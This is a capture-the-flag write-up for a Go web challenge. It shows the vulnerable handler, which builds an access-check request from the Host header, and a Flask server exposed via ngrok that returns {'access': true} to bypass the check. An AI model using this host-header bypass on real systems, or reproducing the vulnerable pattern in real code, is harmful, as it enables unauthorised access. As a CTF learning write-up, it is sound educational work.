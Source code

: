## Challenge Name: Access Denied
Category: Web
Points: ~950
Solves: ~17

Challenge Description: 
(insert some russian text i don't remember lmao)

Artifact Files:
* [src] (src/)

### Observations

Let's start at the beginning ! This challenge gives us some source code for a
web page talking about the SCP foundation. This is some sort of fan page
with infos about different creatures. We can find all those infos in a directory
called "secret-data" with images and descriptions.

Looking through those descriptions, one really strikes us since it contains a
redacted flag !

```
Объект №: SCP-1337

Класс объекта: ???

Объект был обнаружен в центре города ██████████. Его шелковистая шерстка и неповторимая форма оной гипнотизировал и захватывал умы человеческих осыбей.

Жертвы этого объекта обладают убедительно схожими чертами. Мужчины 17-20 лет, имеющие технический склад ума, знание и умение пользоваться современными благами человечества, таких как ██████████████, ██████████ и ██████.

После поимки одного из пострадавших все что он мог это произносить лишь одну фразу: mireactf{???}
```

So our goal would be to read this file !

Now after taking a look at the actual webserver through my webbrowser. We could see
a list of every creature referenced in the txt files which all readable except the one
with the flag which prints "Access Denied" to our screen !

Now let's make it interesting :O

### Source code vulnerability

First thing we want to do since the source code is given is of course
look at how the Access Denial is handled by the server.

After looking around a bit on how this code is structured we find that the interesting
code is in [here](./src/handlers/handlers.go). Here is the important part:

```go

func Validate(c *gin.Context) {
	// host := c.Request.Host
	data := map[string]interface{}{
		"access": false,
	}
	c.JSON(200, data)
}

func access_verification(c *gin.Context, object database.SCP) bool {
	result := map[string]interface{}{"access": false}
	response, err := http.Get("http://" + c.Request.Host + "/validate")
	if err != nil {
		return false
	}
	defer response.Body.Close()
	json.NewDecoder(response.Body).Decode(&result)
	if access, ok := result["access"].(bool); ok {
		return access
	} else {
		return false
	}
}

func GetObject(c *gin.Context) {
	object := database.GetByName(c.Param("object"))
	if object.IsSecret {
		if !access_verification(c, object) {
			c.String(200, "Access denied!!!")
			return
		}
	}
    //Blah blah
}
```

We can see the GetObject function is used to get the different SCP creatures'
informations. It's also checking a parameter called IsSecret which determines 
if it is protected by this access blocker or not.

If a privileged access is required we go on and call **access_verification**.

This makes a request to an endpoint at "/validate" which apparently as we can
see in it's handler function **Validate()** only sends out the json 
```json
{ 
    "access": false
}
```

But you'll notice something interesting. When making this request the function
uses the c.Request.Host parameter of the request which is actually linked to
the http **host** header. This means we could potentially make a request to
the SCP-1337 endpoint and pass a host header to our own webserver.

This would then make the server make a request to our fake webserver at endpoint
/validate and we could send it our own json containing

```json
{
    "access": true
}
```

And voilà !!! We could bypass the access denial and get the flag :D

### Exploitation

So in order to do this I setup a local flask server with only one endpoint at
/validate always sending a json with access true like said earlier : 

```py
#!/usr/bin/env python3

from flask import Flask

app = Flask(__name__)
app.debug = True

@app.route("/validate")
def validate():
    return '{"access": true}'

if __name__ == "__main__":
    app.run()
```

Then I used [ngrok](https://ngrok.com/) to quickly deploy my server on a publicly
accessible address. And I made a request with the host parameter set to
`host: <my_ngrok_server>.ngrok-free.app`

We can see on the logs that a request was made through our fake flask server
and looking at the http response we now have access to the secret file !

(I don't have the flag anymore cuz they shutdown the platform super quick sry)

### Reflections

This was quite a fun challenge and also very accessible with just a bit of hacker thinking.
I'm far from being the best in my team at web but still managed to solve it and get a
decent amount of points for it so i'm happy with that already :D

---
[Back to home](../../README.md)
